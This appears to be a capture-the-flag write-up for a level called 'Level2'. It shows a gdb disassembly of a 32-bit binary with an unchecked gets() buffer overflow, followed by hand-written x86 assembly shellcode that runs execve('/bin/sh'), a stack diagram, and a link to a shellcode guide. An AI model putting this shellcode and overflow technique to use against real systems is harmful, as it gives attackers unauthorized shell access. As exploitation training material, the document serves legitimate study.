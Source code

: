 # Level2

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   %ebp
	   0x08048540 <+1>:	mov    %esp,%ebp
	   0x08048542 <+3>:	and    $0xfffffff0,%esp
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave  
	   0x0804854b <+12>:	ret    
	End of assembler dump.
	(gdb) disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   %ebp
	   0x080484d5 <+1>:	mov    %esp,%ebp
	   0x080484d7 <+3>:	sub    $0x68,%esp
	   0x080484da <+6>:	mov    0x8049860,%eax
	   0x080484df <+11>:	mov    %eax,(%esp)
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
	   0x080484ea <+22>:	mov    %eax,(%esp)
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
	   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
	   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
	   0x080484fb <+39>:	and    $0xb0000000,%eax
	   0x08048500 <+44>:	cmp    $0xb0000000,%eax
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    $0x8048620,%eax
	   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
	   0x0804850f <+59>:	mov    %edx,0x4(%esp)
	   0x08048513 <+63>:	mov    %eax,(%esp)
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	movl   $0x1,(%esp)
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
	   0x0804852a <+86>:	mov    %eax,(%esp)
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
	   0x08048535 <+97>:	mov    %eax,(%esp)
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave  
	   0x0804853e <+106>:	ret    
	End of assembler dump.

There is another vulnerable gets call, however this time there is no useful function to exploit.
We can build our own asm code that will run a shell, and pass its memory address to the binary somehow.

Here is our code :

	global	_start
	section	.text
	
	_start:	
		; set registers to NULL
		xor	eax, eax
		xor	ebx, ebx
		xor	ecx, ecx
		xor	edx, edx
	
		push	edx		; push NULL
		; We need to push /bin/sh on the stack using a x86 architecture. So we need to push 4 bytes at a time, and in little endian number
		push	0x68732f6e	; hs/n
		push	0x69622f2f	; ib//
		
		mov	ebx, esp
		push	edx ; push NULL
		
		push	ebx ; push string address
		
		mov	ecx, esp
		mov	al, 11 ; syscall number of execve
		int	0x80

This is how the stack will look like : 

	   +------------------------+
	   |        //bin/sh        |<-+
	   +------------------------+  |
	   |         edx = 0        |  |
	   +------------------------+  |
	   +->|   ebx = addr chaine    |--+
	   |  +------------------------+
	   |  |            0           |
	   |  +------------------------+
	   +--| ecx = addr addr chaine |
	      +------------------------+

[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf)
